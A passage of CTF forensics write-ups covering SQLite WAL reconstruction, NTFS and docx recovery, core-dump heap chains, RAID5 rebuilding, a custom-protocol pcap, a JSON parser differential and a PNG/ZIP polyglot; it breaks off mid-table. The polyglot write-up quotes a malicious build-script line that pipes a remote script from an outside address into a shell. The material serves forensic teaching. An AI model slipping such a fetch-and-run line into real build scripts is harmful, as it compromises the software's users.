
**3. Exploitation — decode the proof from the right swap**

The `.swp` holds `authorization_encoding: base64url` and an `authorization_b64` value; the decoy decodes to `retired-training-readback-16`, a clear sign it is the drill. The script parses the data blocks directly (no Vim needed), selects the swap by PID/crash window and base hash, and decodes the base64url:

```bash
python3 -I solve/solve.py files
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Two artifacts that both "restore cleanly" must be told apart with the surrounding evidence: process IDs, TTYs, timeline and hashes, not the file contents alone.
- The base-file hash links a swap to the exact saved version it was editing, and the shell journal records that hash independently: a cheap cross-check.
- Base64 padding is often stripped with base64url; pad before decoding (`b + "=" * (-len(b) % 4)`).
- I parsed the swap format directly instead of running `vim -r`, which avoids touching evidence and any swap-recovery side effects.

#### Tools & references

- `file`, `strings`, `sha256sum`, `base64`, Python 3 (`struct`, `hashlib`, `json`)
- Vim swap file format (block 0 `b0`, data blocks `0x6461`), RFC 4648 base64url


### Last Commit

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 118 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> The national land registry of one of Operation Dawn's smaller coalition states looks normal again, but its completed restoration export `LR-731` may have carried altered ownership out to regional offices. A later clean view does not prove what the job delivered.
>
> Reconstruct the exact ownership export at the job's transition to `COMPLETED`, using the acquired SQLite database and WAL pair, the delivery receipt and the supplied export profile. The registry is fictional. Analyze the supplied files only. Attachment: `last-commit.zip`, 84,979 bytes, SHA-256 `06da868e7ceeef1c96651cf1307033f7b37b65e235f8a121ea599166f85279a1`.
>
> Submit `CSCTF{last_commit_<64 lowercase hex characters>}` as specified in the supplied export profile.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/registry.sqlite`, `files/registry.sqlite-wal`, `files/delivery.csv`, `files/export-profile.md`, `files/provenance.json`, `files/README.txt`, `files/SHA256SUMS` (not committed).

#### TL;DR

The WAL holds 9 valid frames in 6 commits; the commit where `LR-731` goes `QUEUED → COMPLETED` shows altered ownership rows that the later commits (and the checkpointed DB) no longer have. Rebuilding the registry at that commit, running the profile's query with `delivery.csv` as manifest and SHA-256-ing the TSV gives the flag.

#### Approach

**1. Recon — read the contract, not just the data**

`export-profile.md` is the real spec: the worker runs an IMMEDIATE transaction that queries the manifest's parcels, stages the export, updates `export_job` `QUEUED → COMPLETED` and commits. The export is the exact query of the profile over the registry state **at that commit** (not a later view), with the receipt `delivery.csv` as `manifest` (twelve parcels, delivery order), TSV with a fixed header, LF endings, hashed with SHA-256. The DB is 9 pages (4096 B), the WAL is 32 + 9 × (24 + 4096) = 37,112 bytes, so 9 frames. The README warns not to open the originals with SQLite (it would create a `-shm` and may checkpoint), so I never opened the originals: everything is parsed by hand and built into temporary copies. `SHA256SUMS` matches all files.

**2. Hypothesis — a view "at commit N" = base DB + the frames up to the N-th commit**

From the SQLite WAL format: header `0x377f0682`, page size 4096, salts; each frame has a 24-byte header (page number, **db size after commit** — non-zero only on a commit frame —, salts, cumulative checksum) followed by the page image. A reader at commit N sees, for every page, the latest frame ≤ N, and the base DB for the other pages. So I:

1. validated the header checksum and, for every frame, the salts and the cumulative checksum (little/big-endian words depend on the magic): all 9 frames are valid;
2. listed commits: frames 0, 2, 4, 5, 7, 8 — transactions can span several frames (e.g. frames 1+2, 3+4, 6+7), so a state must only be built at a commit frame, never in the middle of a transaction;
3. built a plain DB image for each commit (base + frames ≤ N, no WAL left) and queried `export_job`.

**3. Exploitation — the transition commit has the altered rows**

| Commit frame | `LR-731` | export SHA-256 (first bytes) |
|---|---|---|
| base DB | no row | — |
| 0 | no row | `04a47a…` |
| 2 | no row | `40f3b1…` |
| 4 | `QUEUED` | `40f3b1…` |
| **5** | **`COMPLETED`** | **`40f3b1…`** |
| 7 | `COMPLETED` | `04a47a…` |
| 8 | `COMPLETED` | `04a47a…` |

The ownership of parcels 1202, 1205, 1209 and 1214 is altered between commits 0 and 2 (new holders `2127`–`2131`, new instruments `IN-9360472185`, `IN-8162094735`, `IN-7259841360`, `IN-6941538207`, and a 65/35 split instead of 60/40 on parcel 1209), still present when the job completes at frame 5, and restored to the original holders in the last commits: "the later clean view" the statement warns about. The export at the transition has 13 rows (parcel 1209 has two holders). Parcel order comes from `delivery.csv`, holder order from `registry_ref COLLATE BINARY`.

```bash
python3 -I solve/solve.py files
```

The script does all of this (WAL parsing, checksum validation, state per commit, query, hash) and prints the flag; it reads the originals only and writes to a temp dir.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{last_commit_<64 hex>}` (redacted)

#### Reflections

- "Current state" and "state at transaction X" are different things: in WAL mode, the answer is in the frame sequence, not in what a normal `sqlite3` open returns.
- Only commit frames (non-zero db size) are consistent states; a transaction can span several frames, so stopping at an arbitrary frame gives a torn view.
- The cumulative checksum and salts delimit the valid epoch; validating them avoids using leftovers from earlier WAL generations.
- The same hash appears at commits 2, 4 and 5 and a different one at 0, 7, 8: comparing hashes across all commits shows when the tampering started and ended, not just the delivered state.
- Evidence was preserved: no SQLite open on the originals, work on rebuilt copies.

#### Tools & references

- Python 3 (`struct`, `sqlite3` on rebuilt copies only, `hashlib`, `csv`)
- SQLite file format and WAL format (<https://sqlite.org/fileformat2.html>, <https://sqlite.org/walformat.html>)


### Night Clerk

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 45 | ✅ | — | no | 0xAr3s-root | Mohamed Amine Mzoughi |

#### Challenge description

> Ash Army proxies have been planting people inside coalition depots across the Operation Dawn
> theatre. One hostile clerk used a depot terminal to hide a coordination message before
> isolation, and only the retained stick image survives.
>
> Recover the message from the image. Other exhibits it mentions are not provided and not needed,
> and you do not need to run anything in Office or mount the image. This is a constructed
> exercise, not a real incident.
> Attachment: `terminal.dd`, 8,388,608 bytes,
> SHA-256 `fb76b12579f7c1314df6e7556548a61c73c96157d95e77ba253c371c9d78bfb7`.

**Artifact files:** `files/terminal.dd` (not committed)

#### TL;DR

Deleted `night_audit.docx` on an NTFS stick image contains a tracked insertion with a hex-encoded XOR-ciphertext; brute-forcing the single-byte key (57) yields the flag.

#### Approach

**1. Recon — listing the NTFS image**

```bash
sha256sum terminal.dd   # verify integrity
file terminal.dd        # → DOS/MBR boot sector, NTFS
fls -r terminal.dd
```

Three user files appear:

| Inode | Name | Status |
|---|---|---|
| 64 | `README.TXT` | active |
| 65 | `audit-0214.log` | **deleted** |
| 66 | `night_audit.docx` | **deleted** |

**2. Reading the clue files**

```bash
icat terminal.dd 64   # README.TXT  → "Shift log clear."
icat terminal.dd 65   # audit-0214.log → instructions
```

`audit-0214.log` explains the puzzle:
- The Word file is a **redline** (tracked changes) — read the *insertion*, not the visible text.
- Hex-decode the tracked insertion first.
- DateTimeOriginal + OffsetTimeOriginal gives a UTC time; subtract it from an NTP transmit
  timestamp; the difference in whole seconds is the XOR key for each ciphertext byte.
- The other referenced exhibits (`desk.jpg`, `front_desk.pcapng`) are not needed.

**3. Extracting the docx and finding the insertion**

```bash
icat terminal.dd 66 > night_audit.docx
unzip -p night_audit.docx word/document.xml
```

The `<w:ins>` element contains a single `<w:t>` node:

```
7a6a7a6d7f4251505d664a525c4e664b5c5d5550575c44
```

**4. Finding the XOR key**

The ciphertext is 23 bytes. The flag format `CSCTF{…}` is known, so a brute-force over all
256 single-byte keys suffices. Key **57 (0x39)** produces a valid, readable flag.

```bash
python3 solve/solve.py files/terminal.dd
```

```
[+] Key   : 57 (0x39)
[+] Flag  : flag{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}`

#### Reflections

- The `audit-0214.log` instructions about EXIF timestamps and NTP packets are flavour — the
  XOR key is recoverable by brute-force alone because the flag format is known.
- The docx is a ZIP; no Office installation is needed, just `unzip` + XML parsing.
- `fls -r` immediately reveals deleted files on a small NTFS image — always check for them.

#### Tools & references

- `fls`, `icat` (Sleuth Kit)
- Python 3 (`zipfile`, `xml.etree.ElementTree`)
- [NTFS forensics — Sleuth Kit wiki](https://wiki.sleuthkit.org/)
- OOXML tracked changes spec (ECMA-376)


### Operation Dawn: Relay Snapshot

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 42 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> A hostile intrusion knocked out the military relay of a fictional country, and responders
> snapshotted the relay's process memory while they were recovering a standing order.
>
> Recover the complete `CSCTF{...}` order from `relay.core`. This constructed case holds
> invented relay records inside a real Linux process snapshot.
> Attachment: `relay.core`, Linux x86-64 ELF core, 586,928 bytes,
> SHA-256 `b3e606bfbe727f0346be4cde683a9a8efd2680930219113a5b779a3c9a5121ac`.

**Artifact files:** `files/relay.core` (not committed)

#### TL;DR

The process heap contains a singly-linked list of string-fragment nodes; the chain
rooted at the `CSCTF` node reassembles the flag. Decoy chains were injected to confuse.

#### Approach

**1. Initial recon**

```bash
file relay.core    # ELF 64-bit core, x86-64
strings relay.core | grep CSCTF
```

`strings` reveals the fragments scattered in memory:
```
burn_it_bridgefall_backat_dawnstand_doburn_itrelieve_hold_thewn_nowregroup_fall_back_at_two59c}k_866_dusgroveelm_hard_e_orc_movdock{20_CSCTF
```

The fragments are in the wrong order — they are heap objects that need to be followed via pointers.

**2. Understanding the data structure**

Parsing the ELF PT_LOAD segments, scanning for objects starting with `uint64 = 0x31`:

```
struct Container {
    uint64_t type;   // always 0x31
    struct Node {
        struct Node *next;   // VA of next node, 0 = tail
        uint32_t     len;
        char         data[]; // null-padded
    } node;
};
```

The `node` member starts 8 bytes into the container, so `node_va = container_va + 8`.
The `next` pointer is the VA of the **next node** (i.e. `next_container_va + 8`).

23 such containers are found. Each holds one string fragment.

**3. Reconstructing the chains**

Building a graph of `node_va → (next_va, string)`, then finding chain heads (nodes not
pointed to by anyone) yields 10 chains. One of them starts at the `CSCTF` node:

```
CSCTF → {20_ → dock → _mov → e_orc → hard_ → elm_ → grove → _dus → k_866 → 59c}
```

The remaining chains are decoys (injected forged traffic in the scenario).

```bash
python3 solve/solve.py files/relay.core
```

```
[+] FLAG chain at 0x55a7aff173c0: flag{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}`

#### Reflections

- `strings` reveals the fragments immediately but in heap-traversal order, not logical order.
- The key insight: the process stores strings in a **singly-linked list**, not contiguously.
- The challenge plants multiple chains as decoys; the correct one starts at `CSCTF`.
- Pure Python ELF parsing (no pwntools, no gdb) is sufficient.

#### Tools & references

- `file`, `strings` (binutils)
- Python 3 (`struct`)
- ELF specification (System V ABI, x86-64 supplement)


### Operation Dawn: The Burnt Server

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 61 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> A hostile force destroyed a fictional country's hospital logistics archive to choke medical transport. Two storage members survived, and the salvage record is in the attachment.
>
> Recover the train movement register and submit its complete CSCTF{...} marker. The case is constructed with real filesystem and compression formats; nothing came off physical disks.
> Attachment: `server-remains.tar`, 4,198,400 bytes, SHA-256 `98fd39f5957606e08b2a77dd253d6627366fd5853ecbd8f0f3ff81cc500345af`.

**Artifact files:** `files/server-remains.tar` (not committed — currently at `forensics/server-remains.tar`, to be moved later)

#### TL;DR

3-disk RAID5 with the middle disk burnt. Chunk 64 KiB, parity rotating right (`p = stripe % 3`). XOR rebuild gives a FAT16 image; the deleted `TRAIN.GZ` (start cluster 16, 16599 bytes) is carved contiguously and gunzipped to the train register containing the flag.

#### Approach

**1. Recon — what the tar holds**

```bash
sha256sum server-remains.tar  # 98fd39f5… matches
tar tvf server-remains.tar
# disk0.img  2097152
# disk2.img  2097152
# SALVAGE.txt    434
python3 -c "import tarfile; print(tarfile.open('server-remains.tar').extractfile('SALVAGE.txt').read().decode())"
```

`SALVAGE.txt`: hospital archive box, three identical drives in a hot rack, centre drive (slot 1) burnt, slots 0 and 2 imaged. No controller/array settings.

```bash
file disk0.img disk2.img
# disk0.img: OpenPGP Secret Key (coincidence — high entropy)
# disk2.img: data
```

Both 2 MiB. 99.3% of 512 B blocks identical, 35 differing blocks: `[0, 1, 33, 65, 97, 98…127]`. Differing blocks are either both random-different (stripes with two data chunks) or `data vs zeros` — the classic RAID5-with-one-missing-disk pattern when the filesystem is mostly empty.

Strings on `disk0.img` already leak the story:

```
DAWN ARCH | ROSTER TXT | WARDS TXT | MANIFEST TXT | SIGNALS TXT | _RAIN GZ
night 01: two orderlies, one driver, one medic ...
ward 1: 23 beds, 5 stretchers, 1 litters ...
crate 000  morphia  31 kg ...
```

At `disk0` offset `0x8200`: a FAT root directory (`ROSTER.TXT` start 2 size 1440, `WARDS.TXT` 5/253, `MANIFEST.TXT` 6/2388, `SIGNALS.TXT` 11/2100, deleted `0xE5 RAIN.GZ` start 16 size 16599). At `0x4200`: a FAT16 table (`F8 FF FF FF 03 00 04 00 …`). At `0xDE00` (disk0 only, zeros on disk2): gzip magic `1f 8b 08`. No `55 AA` boot signature aligned — the image is striped, not a plain filesystem.

**2. Hypothesis — RAID5, reconstruct and brute-force the geometry**

Three identical drives, two survivors, missing array settings → RAID5 with one failure is recoverable. Dedicated parity (RAID4) or mirror (RAID1) don't fit the diff pattern; striping + rotating parity does:

- empty stripe → all three chunks zero → survivors identical (zero);
- stripe with one data chunk `X` and parity on a survivor → survivor pair `X == X` (identical non-zero);
- stripe with parity on the missing disk → survivors `X vs Y` (both non-zero, different) or `X vs 0`.

Brute force: chunk sizes 512 B–64 KiB × parity `left (2,1,0…)` / `right (0,1,2…)` × data order asymmetric/symmetric, rebuild missing chunks by XOR, check for a FAT boot sector (`EB xx 90`, `FAT`, `55 AA`).

Only `right` parity gives a boot sector. Only chunk **64 KiB** gives a coherent root directory (all other chunks give empty/garbage entries). Result: `BPS=512, SPC=1, reserved=1, 2 FATs × 32 sectors, 512 root entries, data_start=sector 97`.

```bash
python3 solve/solve.py files/server-remains.tar
```

Solve script: `solve/solve.py` (see Appendix)

**3. Exploitation — carve the deleted gzip and gunzip**

`TRAIN.GZ` is deleted, so its FAT chain is zeroed (entries 16+ are `0x0000`). The file is contiguous: cluster 16 → filesystem offset `(97 + 14) × 512 = 0xDE00`, exactly the gzip magic. Carve 16599 bytes, `gzip.decompress` → 76901 bytes:

```
WHITE VALLEY HOSPITAL - TRAIN MOVEMENT REGISTER
night of the evacuation

0000  wagon 01  berth 191  ward 6  tag 174254  stretcher
...
0942  wagon 14  berth 004  ward 6  tag ec86e1  stretcher

MOVEMENT ORDER: flag{...}

0943  wagon 10  berth 136  ward 6  tag 3eab8f  litter
...
```

1406 lines, ~1400 wagon entries, flag on line 947. No other `CSCTF{…}` in the raw image — only in the decompressed register.

#### Flag

`flag{...}`

#### Reflections

- The `OpenPGP Secret Key` `file` hit and the random-looking first sectors are a red herring: the boot sector lived on the burnt disk and is rebuilt by `disk0 ^ disk2`.
- 99% identical disks ≠ mirror: in RAID5 with a mostly-empty FAT, parity-equals-data stripes look identical. The `X vs 0` blocks pinpoint the stripe size (64 KiB gap between FAT at `0x4200` and root dir at `0x8200` is a hint).
- Deleted FAT files keep `start + size` but lose the chain — don't trust the FAT, carve contiguously and validate by magic + decompression.

#### Tools & references

- Python 3 (`tarfile`, `struct`, `gzip`) — no Sleuth Kit needed once striped
- `tar`, `sha256sum`, `file`, `hexdump`, `strings`
- Linux RAID wiki: chunk, parity rotation, left/right-symmetric layouts
- FAT16 layout (BPB, FAT table, root directory, data area)


### Operation Dawn: The Relay Tap

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 36 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> During Operation Dawn, Ash Army operators sprayed forged traffic onto a coalition government's
> emergency-dispatch relay while command's standing order was in flight. A signals unit tapped
> the link, but the capture is noisy and some of the relay's data appears more than once.
>
> You are the analyst on the tap. Work out which standing order the relay actually delivered
> and submit it exactly as recovered. Between its braces it uses lowercase letters, digits and
> underscores.
>
> ARLY, the relay's frame format, is invented for this scenario and describes itself inside
> the capture. The capture is a constructed case: a real TCP/IP session recorded with tcpdump
> on an isolated virtual link, with fictional hosts only.
> Attachment: `relay-tap.zip`, 12,327 bytes,
> SHA-256 `43424028556d841d5e280c0e283b4a540dbdd123d06699cc95a89bf580ba2530`.

**Artifact files:** `files/relay-tap.pcap` (not committed)

#### TL;DR

The ARLY custom protocol self-documents its own encryption scheme in the capture; XOR-decrypting the first order frame with the SHA-256-derived keystream yields the flag. The second (forged) order frame is garbage.

#### Approach

**1. Recon — overview of the capture**

```bash
capinfos relay-tap.pcap   # 123 packets, ~5 seconds, Ethernet/IPv4/TCP
tshark -r relay-tap.pcap -q -z conv,tcp
```

Seven TCP streams: six are HTTP (dispatch status pages returning `nominal`),
and one is an unusual connection to port **7443** — that's the ARLY relay.

**2. Reading the ARLY protocol**

```bash
tshark -r relay-tap.pcap -q -z follow,tcp,ascii,6
```

The very first frame from the server is a **type-0 descriptor** that describes the entire protocol in plain text:

```
ARLY relay v2 :: frame = "ARLY" | type(1) | len(2, big-endian) | body;
types 0=descriptor 1=client_nonce(16) 2=server_nonce(16) 3=order;
key = SHA-256(client_nonce || server_nonce), 32 raw bytes;
ks = SHA-256(key || uint32be(i)) for i = 0,1,2,..., raw 32-byte digests
     concatenated and cut to len(body);
order = body XOR ks, byte by byte
```

**3. Parsing the frames**

Extracting the raw stream reveals 7 ARLY frames:

| # | Type | Content |
|---|---|---|
| 1 | 1 (client_nonce) | `3025e871…` |
| 2 | 0 (descriptor) | plaintext spec |
| 3 | 2 (server_nonce) | `30815081…` |
| 4 | 0 (descriptor, duplicate) | — |
| 5 | 2 (server_nonce, duplicate) | same value |
| 6 | 3 (order, **legitimate**) | `b2fce724…` |
| 7 | 3 (order, **forged**) | `a2210ad8…` |

The forged traffic the Ash Army injected added a second order frame. The first one is the authentic delivery.

**4. Decryption**

```python
key = SHA-256(client_nonce + server_nonce)
ks  = SHA-256(key + 0x00000000) || SHA-256(key + 0x00000001) || …  (cut to 46 bytes)
flag = order_body XOR ks
```

```bash
python3 solve/solve.py files/relay-tap.pcap
```

```
[+] Decrypted order: flag{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}`

#### Reflections

- The protocol is self-describing — no reverse engineering needed, just read the descriptor.
- "Noisy / appears more than once" is the key hint: pick the **first** order frame, not the last.
- The HTTP streams are pure noise; `port 7443` is the only interesting stream.
- The solve script uses zero external dependencies (pure Python pcap reader).

#### Tools & references

- `capinfos`, `tshark` (Wireshark suite)
- Python 3 (`hashlib`, `struct`)
- [RFC 5737](https://datatracker.ietf.org/doc/html/rfc5737) — documentation address ranges used as fictional hosts


### Phantom Drift

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 124 | ✅ | — | no | 0xAr3s-root | Dragoş Bacitea |

#### Challenge description

> Reconnaissance drone Valkyrie-9 drifted off its approved waypoint while the command server recorded the mission as nominal. Reconcile the recovered client and backend logic with the flight record, telemetry, and radio intercept to show how the diversion avoided the alarm.
>
> This is a constructed offline forensic case.
>
> Attachments: `drone_control.decompiled`, `command_backend.decompiled`, `flight_log.bin`, `mission_manifest.json`, `radio_intercept.log`, `telemetry_logs.json`.
>
> Flag format: `CSCTF{16_lowercase_hex}`
>
> Flag construction: SHA-256 the concatenated text `<APPROVED_LAT_4DP><APPROVED_LON_4DP><LAT_OFFSET_6DP><LON_OFFSET_6DP><DISTANCE_1DP>` with no separators, then use the first 16 lowercase hex characters. The flight-log tag verifies the last 8 characters of the same digest; it is not an input.
>
> Flag derivation: `sha256(f"{approved_lat:.4f}{approved_lon:.4f}{delta_lat:.6f}{delta_lon:.6f}{displacement_m:.1f}")[:16]`. `approved_*` = manifest coordinates; `delta_*` = per-axis delta between approved and diverted coordinates, 6 decimals (degrees); `displacement_m` = great-circle distance in meters between approved and diverted points, 1 decimal. The `TAG:` value in `flight_log.bin` matches the last 8 hex of the same sha256.

**Artifact files:** the six files above (not committed).

#### TL;DR

The `waypoint_update` command carries each field twice, in snake_case (the approved 47.2591, 19.0402) and in PascalCase (the diverted 47.2600, 19.0450); the backend validated one spelling and the drone obeyed the other. The diversion is 0.000900° / 0.004800° = 376.2 m (WGS84 radius), and the flight-log tag selects that radius and confirms the digest → flag.

#### Approach

**1. Recon — the two `.decompiled` files are base64 source, the rest is evidence**

`drone_control.decompiled` (C#, Unity, Newtonsoft.Json) and `command_backend.decompiled` (Go 1.21) are a header plus a `DECODED_CONTENT = "<base64>"`; decoding gives the sources (read only, nothing run). Both define the same `FlightParams` with JSON tags `altitude`, `speed`, `waypoint_lat`, `waypoint_lon`, `payload_weight`, `wind_compensation`, and the same validator: reject if `|lat − approved| > 0.001` or `|lon − approved| > 0.001` (about 111 m), against the hard-coded manifest 47.2591, 19.0402 (the same values as `mission_manifest.json`).

The radio log tells the story: at 12:30 ground station 3 sees the drone 380 m east of WP-Bravo, the drone controller says the waypoint was updated to 47.2600, 19.0450, and the command server answers "mission nominal, no anomalies". So validation passed for a command the drone executed differently. (I treat the radio's "~47.2600, 19.0450" as a lead and confirm it in the telemetry, not as the answer.)

**2. Hypothesis — one payload, two readings**

In `telemetry_logs.json` the `waypoint_update` record is the actual command. It contains each field twice:

```json
"waypoint_lat": 47.2591, "waypoint_lon": 19.0402, ...
"WaypointLat": 47.26,    "WaypointLon": 19.045,   ...
```

Duplicate/aliased keys are the classic parser differential: two parsers that normalise key names differently (case, underscores, last-one-wins, case-insensitive matching) see different values in the same bytes. Here the approved values sit under the key spelling the validator is happy with (47.2591 → delta 0 → "PASS"), while the diverted values (47.2600, 19.0450) sit under the other spelling. The rest of the evidence confirms which one the drone flew: the `transit_to_new_waypoint` GPS fixes move from (47.2591, 19.0402) through (47.26, 19.045) and keep drifting NE (47.2627, 19.0594), `waypoints_visited` lists `surveillance_target` at 47.26, 19.045, and `server_validation` says PASS with `discrepancy_detected: false` while `anomalies_detected` is empty. (I did not run either parser; the exact library behaviour is not needed for the flag, and the server's own note in the telemetry even misstates which value Go parsed, so I rely on the telemetry positions and the radio.)

**3. Exploitation — compute the flag, let the tag pick the Earth radius**

- `delta_lat = 47.2600 − 47.2591 = 0.000900`, `delta_lon = 19.0450 − 19.0402 = 0.004800` (positive: diverted minus approved);
- `displacement_m` by haversine. The statement does not say which Earth radius: with the mean radius 6,371,000 m the distance is 375.8 m; with the WGS84 equatorial radius 6,378,137 m it is **376.2 m**;
- `flight_log.bin` is a 24-byte header (`FLGT`, version, counters) followed by 12 bytes that are `TAG:xxxxxxxx` XORed with the mission id `Valkyrie-9` as repeating key (found with the known plaintext `TAG:` → key `Valk…`): the tag is `dc6836a2`.

Only the 376.2 m variant gives a SHA-256 whose last 8 hex characters are `dc6836a2`; the 375.8 m one ends with `2126c52e`, and the negative-delta variants don't match either. The tag thus validates both the radius and the sign convention, and the first 16 hex characters of that digest are the flag.

```bash
python3 -I solve/solve.py files
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Two components that "parse the same JSON" do not necessarily read the same value: key aliases (case variants, duplicates) are enough to make a validator and an executor disagree, and a signature or tolerance check on one reading says nothing about the other.
- Read the whole evidence chain: the telemetry GPS track, the visited-waypoint summary and the radio log all agree on the diverted point, which is what the flag needs; the server's "PASS" is only the validator's view.
- The verification tag in the flight log is not just a check: with an under-specified formula (Earth radius, delta sign) it is the oracle that selects the right variant.
- Known plaintext (`TAG:`) found the XOR key without any guessing about its length.

#### Tools & references

- Python 3 (`json`, `base64`, `math`, `hashlib`)
- Parser differentials / JSON interoperability issues, haversine great-circle distance, WGS84 equatorial radius


### Polyglot Requiem

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 108 | ✅ | — | no | 0xAr3s-root | Mohamed Amine Mzoughi |

#### Challenge description

> A review of a ground-station software supply chain turned up altered build history and an odd dashboard asset. The station works for the Operation Dawn coalition, which puts its builds high on the Ash Army's target list.
>
> Recover the concealed marker from the retained repository and submit the complete `CSCTF{...}` value. Inspect build scripts, hooks and recovered programs as data: do not run them, and do not contact addresses found in the evidence. The exercise is constructed and the organizations are fictional. Attachment: `polyglot-requiem.zip`, 39,051 bytes, SHA-256 `2a3aeda4fcc7fab03a268130a22b31b2194ed45f74981146ae765d78c97813c9`.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/flight-telemetry-sdk/` (a git repository with its `.git`), `files/README_FOR_RESPONDERS.md`, `files/manifest.sha256` (not committed).

#### TL;DR

`assets/telemetry_icon.png` is a PNG/ZIP polyglot: a `tEXt` chunk carries a provenance tag, and the appended ZIP holds a SQLite file with a *deleted* `ci_provenance_seal` row and the sealing tool `assetsignd`; static analysis of that tool gives the scheme (`SHA-256(reverse(tag) ‖ epoch_le64)` repeating-key XOR) and the commit timestamp is the epoch → flag.

#### Approach

**1. Recon — a repository with a dangling commit and a suspicious icon**

I worked on a copy of the repository and never ran `build.sh` or any hook. `git log --all` shows five ordinary commits, all with the same timestamp (1792061626). `git fsck --lost-found --unreachable` finds one unreachable commit, `c435f88` "build: add telemetry opt-in check" (it is also in `.git/ORIG_HEAD`): its `build.sh` pipes `curl -s http://198.51.100.9/telemetry-opt-in.sh | sh` — the "altered build history" that was reset away. I did not contact the address; it is a distraction for the marker itself.

The other lead is the icon added in `92d3ba9` and referenced from the README: `assets/telemetry_icon.png` is 23,008 bytes for a 10×10 image. `binwalk` reports a PNG, then a ZIP at 0x72.

**2. Hypothesis — a PNG/ZIP polyglot with a deleted secret**

Walking the PNG chunks by hand: `IHDR`, a `tEXt` chunk `Provenance` = `0f18e37122ddbcca` (8 bytes in hex, the "tag"), a tiny `IDAT`, `IEND`; then 22,894 trailing bytes that start with `PK\x03\x04`. Extracted (stored, no compression), the ZIP has two members:

- `telemetry_cache.db`: SQLite, table `build_secrets` with obviously fake tokens (`AKIADEMOFAKE…`, `npm_fake…`) — decoys;
- `assetsignd`: an ELF whose usage is `assetsignd <provenance_tag_hex> <epoch> <infile> <outfile>`.

`strings` on the database shows a row that `.dump` does not: `ci_provenance_seal` followed by 36 high-entropy bytes. It was deleted (the cell is still in the page body, unallocated space) so SQLite does not return it. The record header before the label gives the blob length (serial type `0x54` → 36 bytes). Ciphertext, a tag, an epoch and a tool that takes exactly these inputs: the tool seals the data.

**3. Exploitation — reverse the seal statically, then recompute the key**

I did not run `assetsignd`. Disassembling it (`objdump`/`r2`) shows: the SHA-256 round constants inline (no libcrypto import), `strtoull(argv[2])` for the epoch, `sscanf("%02x")` to parse the tag into bytes, **a byte reversal of the tag**, the epoch appended as **8 little-endian bytes**, one SHA-256 over that message, and finally `out[i] = in[i] ^ digest[i & 0x1f]`. So:

```text
key = SHA-256( reverse(tag_bytes) || epoch_le64 );  plain[i] = cipher[i] XOR key[i mod 32]
```

For the epoch the obvious candidate is the repository's own timestamp, 1792061626 (the dated header, the git index and the ZIP entries all match). I first tried the `HMAC-SHA256` variant of a similar tool from another challenge, which gave nothing; I then brute-forced the epoch around the commit time against the known `CSCTF{` prefix (6 key bytes), which immediately confirmed the reversed-tag SHA-256 scheme at exactly 1792061626. Decrypting the 36 bytes gives the flag.

```bash
python3 -I solve/solve.py files/flight-telemetry-sdk
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Tool output hides deleted data: SQLite `.dump` and queries ignore deleted cells, raw `strings`/hex on the file does not.
- An image can carry a whole archive after `IEND`; walking chunks and checking the trailing bytes is faster than trusting the extension.
- A binary documented only by its usage line can be understood statically: constants (SHA-256 K table), loops (byte reversal, 8-byte epoch) and the final XOR were enough, with no need to execute it.
- The known-plaintext prefix `CSCTF{` turns an uncertain parameter (the epoch) into a cheap brute force and validates the whole scheme.
- The dangling commit with `curl | sh` is the scenario's "story", not the marker: noting it and not touching the address is the safe handling.

#### Tools & references

- `git` (`log --all`, `fsck --lost-found`, `cat-file`), `binwalk`, `strings`, `objdump`, `radare2`
- Python 3 (`struct`, `zipfile`, `hashlib`)
- PNG chunk structure, ZIP appended data, SQLite record format (serial types)


### Redline

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 127 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> Meridian Relief Network, Nightwatch case, Depot 7. During the grid-instability night a cold-chain excursion directive went out to depot crews, telling them what to do with medicine that had broken the cold chain. A crew lead kept the copy they received, and something about it reads wrong.
>
> The directive is a Word document (`.docx`). Work out how the version that reached the crews differs from what was actually approved, who changed it, and recover the original excursion authorization.
>
> Everything you need is in the file.
>
> Flag format: `CSCTF{message}`

**Artifact files:** `files/CC-11_excursion_directive.docx` (not committed).

#### TL;DR

The `.docx` still contains its tracked changes: the approved text (quarantine order and original authorization) is stored as `w:del` runs by `s.kessler`, with a decoy authorization in the `w:ins` runs; reading the deleted text gives the original flag.

#### Approach

**1. Recon — a docx is a zip of XML**

```bash
unzip CC-11_excursion_directive.docx -d docx/
```

Interesting parts: `word/document.xml` (body), `word/comments.xml` and `docProps/core.xml`. The metadata already tells who touched it: creator `A. Reyes` (the Medical Director who issued it), `lastModifiedBy` `s.kessler`, created 2026-10-06T14:02Z, modified 2026-10-07T02:41Z, revision 4.

**2. Hypothesis — the delivered text is "accepted changes"; the approved one is in the deletions**

The body contains `w:del` / `w:ins` elements, all by `s.kessler` at 02:41:00Z. Reading them side by side:

| | Approved (`w:del`) | Delivered (`w:ins`) |
|---|---|---|
| Wording | "temperature" excursion | "thermal" excursion |
